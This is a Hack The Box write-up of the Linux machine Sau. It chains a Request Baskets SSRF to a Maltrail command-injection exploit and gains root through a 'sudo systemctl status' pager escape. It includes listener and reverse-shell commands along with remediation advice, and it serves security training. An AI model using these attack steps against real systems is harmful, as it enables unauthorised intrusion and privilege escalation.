# Sau — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | SSRF (CVE-2023-27163), unauthenticated command injection (Maltrail), `sudo systemctl` pager escape |

---

## TL;DR

Sau chains two separate vulnerabilities in two separate applications
through a Server-Side Request Forgery: a public `Request Baskets`
instance is used to reach an internal-only Maltrail instance, which has
its own unauthenticated command-injection bug. Root comes from a `sudo`
rule around `systemctl status`, exploited through its pager rather than
any flaw in `systemctl` itself.

---

## Recon

```bash
nmap -sVC -O 10.129.229.26
```



Results: SSH (22), and HTTP on both 80 and 55555.

---

## Enumeration

### HTTP

Port 55555 turned out to be a **Request Baskets** instance:



Checked the version against known CVEs and found **CVE-2023-27163**:



Created a new basket to start testing:



Set a listener on port 80:

```bash
nc -lvnp 80
```



Set the basket's Forward URL to my own Kali machine:



Sent a request to trigger it:

```bash
curl http://10.129.229.26:55555/8vwyd59
```

Got the connection on my listener — confirmed the SSRF works:



Set the Forward URL to `127.0.0.1:80` to see what's running locally on the
box itself:



Browsing to the basket URL again this time returned content — "Powered by
Maltrail (v0.53)":



Found a GitHub exploit for a weaponized Maltrail v0.53 unauthenticated OS
command injection (RCE).

---

## Foothold / Initial Access

Downloaded and ran the exploit through the SSRF path:

```bash
nc -nlvp 9999
python3 exploit.py 10.10.15.6 9999 https://10.129.229.26:55555/8vwyd59
```



Got a shell as user `puma`:



Found the user flag in `/home/puma`.

---

## Privilege Escalation

`sudo -l` showed `puma` could run `/usr/bin/systemctl status trail.service`
with no password:



Checked the systemctl version:

```bash
systemctl --version
```



Looked up whether that version was affected by anything and found
**CVE-2023-26604** — systemd doesn't set `LESSSECURE`, so `less` (the
default pager for `systemctl status` output) can spawn a shell that
inherits whatever ran it:



Executed:

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```



Got a shell as root and found the flag in `/root/root.txt`.

---

## Lessons Learned

- SSRF isn't just "leaked data" — it's a real pivot to things you'd
  otherwise never see. Maltrail on this box wasn't reachable any other way.
- A narrowly-scoped `sudo` rule can still be a full root shell if the
  allowed command has any interactive component (a pager, an editor) that
  supports shell escapes.
- `sudo -l` output naming a read-only-looking command (`systemctl status`)
  isn't automatically safe — check the systemd version against known CVEs
  before assuming.

---

## Remediation

- Patch Request Baskets and restrict Forward URL targets to an allow-list,
  blocking loopback/internal ranges by default.
- Patch or remove Maltrail; never assume "internal-only" binding is
  sufficient protection against SSRF pivots.
- When granting `sudo` for read-only-seeming commands, force non-interactive
  output (`--no-pager`, or `SYSTEMD_PAGER=cat`) to eliminate the pager
  escape entirely.

---

## Tools used

- `nmap`
- `curl`, `nc`
- Request Baskets web UI
- Python (public Maltrail exploit)
- `systemctl`, `sudo`

---

**See also:** [Linux privilege escalation methodology](../../methodology/linux-privesc.md)

---

**Machine:** [Hack The Box — Sau](https://www.hackthebox.com/machines/sau)

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/sau/)
